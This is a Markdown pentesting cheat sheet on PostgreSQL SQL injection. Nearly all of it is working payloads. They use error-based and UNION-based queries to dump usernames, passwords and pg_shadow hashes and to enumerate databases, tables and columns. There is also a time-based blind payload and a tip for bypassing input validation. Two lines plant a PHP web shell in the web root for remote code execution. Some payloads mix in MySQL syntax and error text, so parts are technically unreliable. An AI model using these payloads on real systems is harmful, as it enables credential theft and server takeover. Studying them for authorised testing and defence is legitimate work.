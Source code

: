 # PostgreSQL

## Methodology

See [0 SQL Injection](0%20SQL%20Injection.md) for identification if necessary

Utilize [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) for additional guidance

### Error-based Payloads vs Authentication Queries

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
' OR 1=1 in (SELECT version()) -- //
'
# We can now attempt to dump table information
' OR 1=1 in (SELECT * FROM users) -- //
'
# In the case where we can only query one column at a time
' OR 1=1 in (SELECT password FROM users) -- //
'
# We can now specify a user to dump the password for
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) for additional example queries

### UNION-based/Error-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

**Note** PostgreSQL differs from MySQL in `UNION SELECT` statements due to having to match the variable types within the statement. We can aid in matching types by casting with `::` after the character

```mysql
# We first use ORDER BY and increment until we receive an error
' ORDER BY 1 -- //
' ORDER BY 1,2 -- //
' ORDER BY 1,2,3 -- //
' ORDER BY 1,2,3,4 -- //
' ORDER BY 1,2,3,4,5 -- //
' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
'
# We can now rearange our statement to first query baseline information
' UNION SELECT null, current_database(), user, version(), null -- //
' UNION SELECT null, CAST(current_database() as integer), null, null, null -- //
' UNION SELECT null, CAST(passwd as integer), null, null, null, null FROM pg_shadow -- //
'
# Now we can query all databases available for us to enumerate (note: information_schema is default)
' UNION SELECT null, datname, null, null, null FROM pg_database -- //
' UNION SELECT null, CAST((SELECT datname FROM pg_database) as integer), null, null, null -- //
# In the case where we have to limit output due to not allowing more than one row to be returned (increment offset)
' UNION SELECT null, CAST((SELECT datname FROM pg_database LIMIT 1 OFFSET 0) as integer), null, null, null -- //
'
# We can now query tables for our desired databases
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='db_name' -- //
' UNION SELECT null, CAST((SELECT table_name FROM information_schema.tables WHERE table_schema='db_name') as integer), null, null, null -- //

# We can now query columns for our desired table
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema='db_name' -- //
' UNION SELECT null, CAST((SELECT column_name FROM information_schema.columns WHERE table_schema='db_name' LIMIT 1 OFFSET 0) as integer), null, null, null -- //

# We now have all the information we need to query table data
' UNION SELECT null, username, password, description, null FROM users -- //
' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //

# We can also leak variables within error data via CAST()
' UNION SELECT null, CAST(version() as integer), null, null, null -- //
' UNION SELECT null, CAST((SELECT * FROM users) as integer), null, null, null -- //
# Miscellaneous functions: current_database(), current_schema(), current_schemas(boolean), current_user, session_user, user, version() - https://www.postgresql.org/docs/7.3/functions-misc.html

# RCE (doesn't matter if PHP code is in viewable column)
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //
'; COPY (SELECT '<?php system($_GET[''cmd'']);?>') TO '/var/www/html/shell.php' -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Boolean-Based Blind SQL Injection

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
' AND IF (1=1, sleep(2),'false') -- //
```
